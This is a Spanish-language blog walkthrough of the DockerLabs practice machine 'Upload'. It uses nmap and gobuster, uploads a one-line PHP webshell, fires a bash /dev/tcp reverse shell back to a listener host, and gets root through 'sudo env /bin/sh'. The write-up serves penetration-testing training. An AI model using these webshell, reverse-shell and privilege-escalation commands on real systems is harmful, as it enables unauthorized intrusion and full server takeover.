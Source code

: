 ```yaml
---
layout: post
title: "Upload"
date: 2024-06-29 12:20:23
category: sample
vm: dockerlabs
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Upload </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Muy Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/dockerlabs/upload/host.png){:.margin}

**1\.** Descubrimos puertos y servicios de la maquina.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/upload/nmap.png){:.margin}

**2\.** En la web tenemos una subida de archivos.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/upload/80.png){:.margin}

**3\.** Hago fuzzing de directorios y ficheros en la web.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directoy-list-2.3-medium.txt -x html,php,txt -q`

![img](/notas/public/img/dockerlabs/upload/gobuster.png){:.margin}

**4\.** En el php tenemos la misma subida de archivos, y en uploads supongo que se almacena todo lo subido.

`http://172.17.0.2/upload.php`

`http://172.17.0.2/uploads/`

![img](/notas/public/img/dockerlabs/upload/uploadphp.png){:.margin}
![img](/notas/public/img/dockerlabs/upload/upload.png){:.margin}

**5\.** Creo un php para subirlo y obtener una webshell, nuestro php lo encontramos en uploads.

`echo '<?php system($_GET["cmd"]);?>' > shell.php`

![img](/notas/public/img/dockerlabs/upload/shellphp.png){:.margin}
![img](/notas/public/img/dockerlabs/upload/shellupload.png){:.margin}
![img](/notas/public/img/dockerlabs/upload/uploads.png){:.margin}

**6\.** Me pongo en escucha con nc para recibir la reverse shell.

`nc -nlvp 4000`

`http://172.17.0.2/uploads/shell.php?cmd= bash -c "bash -i >%26 /dev/tcp/192.168.18.8/4000 0>%261"`

![img](/notas/public/img/dockerlabs/upload/80reverse.png){:.margin}
![img](/notas/public/img/dockerlabs/upload/ncok.png){:.margin}

**7\.** Revisando los permisos sudo, tengo este binario que puedo ejecutarlo como root.

`sudo -l`

![img](/notas/public/img/dockerlabs/upload/sudol.png){:.margin}

**8\.** Escalando privilegios a root, busco en [gtfobins](https://gtfobins.github.io/gtfobins/env/#sudo) sobre el binario.

`sudo env /bin/sh`

![img](/notas/public/img/dockerlabs/upload/root.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>